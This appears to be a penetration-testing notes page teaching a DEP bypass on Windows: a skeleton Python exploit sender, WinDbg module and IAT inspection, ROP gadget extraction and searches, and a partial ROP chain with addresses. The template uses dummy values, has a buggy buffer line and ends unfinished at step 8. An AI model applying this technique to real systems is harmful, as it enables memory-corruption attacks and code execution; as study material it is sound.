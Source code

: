 # DEP Bypass

Uses Gadgets / Rop Chains to call the `VirtualAlloc` function and execute shellcode

### 1. Skeleton Starting Python Code
```
import socket
import sys
from struct import pack

# variables
SIZE = 500

# CommandBuffer
# These lines execute VirtualAlloc with shellcode
cb  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
cb += pack("<L", (0x46464646)) # Shellcode Return Address
cb += pack("<L", (0x47474747)) # # dummy Shellcode Address
cb += pack("<L", (0x48484848)) # dummy dwSize 
cb += pack("<L", (0x49494949)) # # dummy flAllocationType 
cb += pack("<L", (0x51515151)) # dummy flProtect

# buffer
offset = b'\x41' * SIZE
eip = b'\x42' * 4
rop = b'\x43' * (0x600 - SIZE - len(eip))

buf = b'offset + va + eip + rop'
print('[I] %s : %s' % (len(buf),buf)) # always good to print buffers to make sure they meet expectation

def main():
  if len(sys.argv) != 3:
    print('Usage: %s <ip_address> <port>\n' % (sys.argv[0]))
    sys.exit(1)

  server = sys.argv[1]
  port = sys.argv[2]
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  
  s.send(buf)
  s.close()

  print('[+] Packet sent')
  sys.exit()

if __name__ == '__main__':
  main()
```

### 2. Identify Offset  
...  

### 3. Find Bad Characters 
[Finding Bad Characters](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/exploit_dev/identifying_bad_characters.md)  

### 4. Identify File(s) to use for Gadgets
* Files must not have DEP enabled.
* Files must not have bad characters in high bits of memory address
```
# Using Windbg
# list modules
>lm
start    end        module name
00190000 001c3000   snclientapi   (deferred)             
001d0000 001fd000   libcclog   (deferred)             
00400000 00c0c000   GraceServer   (deferred)             
012c0000 01302000   NLS        (deferred)             
01380000 013ab000   gsk8iccs   (deferred)             
01440000 0147a000   icclib019   (deferred)             
030d0000 031c0000   libeay32IBM019   (deferred)

>!dh -f <memory base address>
 ...
  # This means DEP/NX is enabled
    4140  DLL characteristics
            Dynamic base
            NX compatible
            Guard
  ...
  # No DEP enabled
  0  DLL characteristics
```

### 5.  Extract Gadgets from file
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  

Using `rp-win-x86.exe`
```
C:\rp-win-x86 -f <file> -r <max number of instructions> > <output file>
```
Load the output file into Visual Studio Code or text editor to search.

### 6.  Access the Bytes containing the dummy VirtualAlloc Address

  1. Save the ESP register address into another register, such as EAX, EDI, or ESI.  This address will later be used with an offset to access the dummy VirtualAlloc Address.
     * Search the gadgets text file for suitable operations to accomplish this.
      - Gadget memory addresses cannot contain bad characters  
      - Remember top of the stack contains the function return address.    
     * Place first gadget into eip.  Subsequent gadgets should be in the 'rop' section
     * Sample searches
       ```
       push esp.* ; .* pop.* ; ret
       mov .*, esp
       xchg .*, esp
       xor .*, .* ; add .*, esp
       lea .*, esp
       sub .*, .*, adc .*, esi
       
       ```
       
     ```
     ...
    # rop chain
      eip = pack("<L", (0x505412f9))  # mov eax, ecx; ret;  :: csftpav6.dll | copy ecx address to eax
      rop = pack("<L", (0x505115a3))  # pop ecx; ret;  :: csftpav6.dll | pop the offset value into ecx
      rop += pack("<L", (0xffffe770)) # -1680 | offset value
      rop += pack("<L", (0x50533bea)) # sub eax, ecx; ret;  :: csftpav6.dll | subtract eax from ecx to get the start of the VirtualAlloc field

     ...
     buf = offset + cb + eip + rop 
     ```

### 7. Obtaining VirtualAlloc Address

'''
#Using Windbg

> !dh -f 50500000

File Type: DLL
FILE HEADER VALUES
     14C machine (i386)
       5 number of sections
4C056121 time date stamp Tue Jun  1 12:36:01 2010

       0 file pointer to symbol table
       0 number of symbols
      E0 size of optional header
    2102 characteristics
            Executable
            32 bit word machine
            DLL
...

       0  DLL characteristics
   53870 [    1068] address [size] of Export Directory
   52A2C [      50] address [size] of Import Directory
   60000 [   12500] address [size] of Resource Directory
       0 [       0] address [size] of Exception Directory
   71000 [    16A8] address [size] of Security Directory
   73000 [    2AF4] address [size] of Base Relocation Directory
       0 [       0] address [size] of Debug Directory
       0 [       0] address [size] of Description Directory
       0 [       0] address [size] of Special Directory
       0 [       0] address [size] of Thread Storage Directory
   523E0 [      40] address [size] of Load Configuration Directory
       0 [       0] address [size] of Bound Import Directory
   4A000 [     28C] address [size] of Import Address Table Directory  **** <--- IAT Address ****
       0 [       0] address [size] of Delay Import Directory
       0 [       0] address [size] of COR20 Header Directory
       0 [       0] address [size] of Reserved Directory
       
>dps 5054a000 l28c
5054a000  757f0020 ADVAPI32!RegCreateKeyExA
5054a004  757efc10 ADVAPI32!RegOpenKeyExA
5054a008  757ef560 ADVAPI32!RegCloseKey
5054a00c  758138b0 ADVAPI32!RegSetValueA
5054a010  757e1200 ADVAPI32!RegQueryValueA
5054a014  757f02c0 ADVAPI32!RegDeleteKeyA
5054a018  757f2a70 ADVAPI32!RegEnumKeyA

'''

### 8. 

